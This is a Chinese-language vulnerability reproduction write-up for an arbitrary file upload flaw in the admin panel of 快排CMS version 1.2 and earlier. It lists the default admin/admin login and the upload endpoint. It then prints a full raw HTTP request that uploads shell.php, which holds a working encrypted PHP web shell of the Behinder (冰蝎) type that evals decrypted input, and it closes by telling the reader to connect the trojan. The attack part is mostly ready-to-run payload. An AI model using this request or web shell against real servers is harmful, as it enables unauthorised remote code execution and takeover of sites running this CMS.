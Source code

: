 # 快排CMS 后台任意文件上传漏洞

# 快排CMS 后台任意文件上传漏洞

## 漏洞描述

快排CMS 后台管理模块存在任意文件上传漏洞，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
快排 CMS <= 1.2
```

## 环境搭建

https://gitee.com/qingzhanwang/kpcms

## 漏洞复现

登录页面如下, 默认账号密码为 **admin/admin**

```plain
http://xxx.xxx.xxx.xxx/admin.php/index/login.html
```



![](/images/202202170921790.png)

源码中没有对上传文件的后缀检测

```plain
thinkphp/library/think/File.php
```

![](/images/202202170922307.png)

任意找一处文件上传点

![](/images/202202170922296.png)

上传抓包获取文件地址

![](/images/202202170922533.png)

```plain
POST /admin.php/index/upload.html?dir=image HTTP/1.1
Host: 192.168.1.108:88
Content-Length: 935
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.108:88
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryYIt9WaQZiDMrwAVm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.108:88/admin.php/config/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: admin_id=IphHb2Z%2FRG9gIXGA7HpPzQ%3D%3D; menu_show=0; menu_id=menu_22; url=%2Fadmin.php%2Fconfig%2Findex.html
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="localUrl"

C:\fakepath\shell.php
------WebKitFormBoundaryYIt9WaQZiDMrwAVm
Content-Disposition: form-data; name="imgFile"; filename="shell.php"
Content-Type: application/octet-stream

<?php
@error_reporting(0);
session_start();
    $key="e45e329feb5d925b";
	$_SESSION['k']=$key;
	$post=file_get_contents("php://input");
	if(!extension_loaded('openssl'))
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}
    $arr=explode('|',$post);
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}
    @call_user_func(new C(),$params);
?>

------WebKitFormBoundaryYIt9WaQZiDMrwAVm--
```

连接冰蝎木马即可

![](/images/202202170922800.png)

